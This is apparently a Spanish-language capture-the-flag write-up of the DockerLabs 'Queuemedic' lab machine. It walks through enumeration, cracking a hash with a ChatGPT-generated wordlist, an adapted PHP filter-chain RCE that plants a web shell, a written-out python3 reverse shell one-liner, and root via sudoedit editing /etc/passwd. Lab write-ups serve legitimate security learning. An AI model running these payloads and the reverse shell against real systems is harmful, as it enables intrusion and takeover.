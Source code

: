 # Docerlabs - Queuemedic - Hard

### 1) Iniciamos la maquina.
```bash
sudo ./auto_deploy.sh queuemedic.tar
```

![](ANEXOS/Pasted%20image%2020240925173632.png)

### 2) Nos dirigimos al navegador e ingresamos la dirección http://172.17.0.2.
![[Pasted image 20240925173823.png]]
***Al ingresar a la url se carga un formulario de acceso.***

![](ANEXOS/Pasted%20image%2020240925180151.png)

***Analizando la web con wappalyzer no se encontró ninguna información que nos pueda llamar la atención para investigar.***

### 3) Realizamos un escaneo de puertos con nmap.
```shell
nmap -sV -Pn 172.17.0.2 
```

![[Pasted image 20240925174021.png]]
*Al terminar el proceso se encontró un solo puerto abierto el 80 con un servidor Apache.*

### 4) Realizamos una búsqueda de carpetas y archivos con gobuster.

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt --exclude-length 0,275
```

![[Pasted image 20240925174813.png]]
*Al terminar el proceso se encontro con varias carpetas con posibles datos sensibles ellas son /backup y /db.*

### 5) Nos dirigimos a la url de /backup http://172.17.0.2/backup.

![[Pasted image 20240925175148.png]]
*Al ingresar vemos un archivo con extensión .zip lo cual procedemos a descargarlo para su posterior análisis.*

### 6) Nos dirigimos a la url de /db http://172.17.0.2/db.
 
![[Pasted image 20240925175503.png]]
*Al ingresar observamos un archivo con extensión .db lo cual procedemos a descargarlo para su posterior análisis.*

### 7) Analizamos los archivos descargados:
	a) Descomprimimos y verificamos el contenido del archivo backup.zip.	
	
	![[Pasted image 20240925175854.png]]
	*Nos encontramos con un backup completo del sistema Clinic Queuing System, en el cual realizando un análisis de cada archivo se encontró una posible vulnerabilidad en "index.php "en el método que utiliza para llamar a "page".*
	
	b) Abrimos el archivo clinic_queuing_db.db con sqlitebrowser.
	
	![[Pasted image 20240925180826.png]]
	*Al abrir la base de datos podemos ver las tablas de la db y desplegamos la tabla user_list*
	![[Pasted image 20240925181901.png]]
	*Al realizar la consulta sobre esta tabla user_list, se puede observar el contenido del mismo con los datos de username y password en la cual esta encriptada.*
	
### 8) Ataque de diccionario a los hashes encontrados.
	a) *Al realizar el ataque por fuerza bruta no se pudo obtener la contraseña de Administrador.*
	b) *Para obtener una lista con posibles contraseña para el usuario "Jessica Castro" utilizamos ChatGpt en el cual nos brinda una lista de 100 posibles contraseñas.*
	
	![[Pasted image 20240925183606.png]]
	![[Pasted image 20240925183512.png]]
	c) *Al finalizar el ataque por fuerza bruta con john the ripper pudo obtener una contraseña que concuerda con el hash del usuario "jessica" la cual es "j.castro".*

### 9) Volviendo la pagina principal en el login http://172.17.0.2.
![[Pasted image 20240925184644.png]]
*Iniciamos sesión con las credenciales obtenidas.*
![[Pasted image 20240925184845.png]]
*Analizando la pagina web ademas de un xss en el registro de usuarios y pasientes no se encontro.*

### 10) Busueda de Clinic Queuing System (php) en google.
![[Pasted image 20240925185754.png]]
*Al realizar la búsqueda en google no encontramos con el cms pero también arrojo en exploit-db un exploit en el cual se pude obtener RCE.*

### 11) Descarga https://www.exploit-db.com/exploits/52008 y análisis del exploit.

### 12) Al descargar y ejecutar el exploit vemos que no realiza la explotación del servicio.
	![[Pasted image 20241011082236.png]]

### 13) Analizando en detalle el código del sitio y el exploit encontré que había unas validaciones que hace la pagina por lo cual el exploit no puede realizar correctamente su cometido. 

### 14) Fijándome mas en detalle tengo acceso a un usuario que es administrador y en el exploit crea un usuario administrador entonces lo que se me ocurrió a analizar en que parámetros inyecta para obtener un RCE.
	![[Pasted image 20241011083138.png]]

### 15) Como se observa en la imagen el exploit inyecta en el parámetro `?page=` un `filter_chain` y después en el parámetro `&0=`, crea el archivo `rce.php` y escribe el contendido ``<?=`$_GET[0]`?>`` parseado en base64.

### 16) Entonces lo que tuve que hacer es unir todo el contenido de la variable `filter_chain` mas el parámetro 0 y ejecutarlo directamente en el navegador.
	![[Pasted image 20241011085843.png]]
	*El `filter_chain` es mas extenso pero así quedaría para inyectarlo directamente al navegador.*
	![[Pasted image 20241011090029.png]]
	*Ya tengo ejecución de comandos *

### 17) Ahora creo una reverse shell utilizando python3.

 ```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
 ```
 
 y en mi consola obtengo la conexión.
	 ![[Pasted image 20241011090521.png]]
	 
### 18) Luego del tratamiento de la tty, listo el contenido del escritorio donde estoy ubicado y también listo la carpeta /home, en el cual encontré una carpeta jessica del que creo que es un usuario de sistema entonces realizo un cat al archivo /etc/passwd y encuentro al usuario.
	 ![[Pasted image 20241011092359.png]]

### 19) Como tengo un usuario llamado con el mismo nombre que el usuario de la web y como ya tengo una contraseña lo que hago es poner la misma contraseña y ahi ingreso al usuario jessica del sistema.
	 ![[Pasted image 20241011092814.png]]

### 20) Ahora con `sudo -l` listo los privilegios que tiene el usuario jessica, en este caso tiene los privilegios root para utilizar suodedit en la varpeta /var/www/html/.
	![[Pasted image 20241011102543.png]]

### 21) Para elevar privilegios a root primeramente tengo que setear el editor global a nano ya que vim no esta instalado y al editarlo también pongo la opción que se me abra para editar el archivo /etc/passwd.
	![[Pasted image 20241011103016.png]]

### 22) Ahora que ya tengo todo seteado abro el editor en la ubicación que vimos al listar son sudo -l, entonces ejecuto sudoedit /var/www/html/, Se me abrirá automáticamente el archivo /etc/passwd.
	![[Pasted image 20241011103622.png]]

### 23) Ahora que obtuve acceso para editar el archivo /etc/passwd como root lo que queda es eliminar la letra x que esta en el usuario root y esto significa que le quito la contraseña que tenia asignada anteriormente.
	![[Pasted image 20241011103944.png]]

### 24) Guardo los cambios y salgo y luego escribo su y presiono enter y ya obtengo acceso a root.
![[Pasted image 20241011104942.png]]
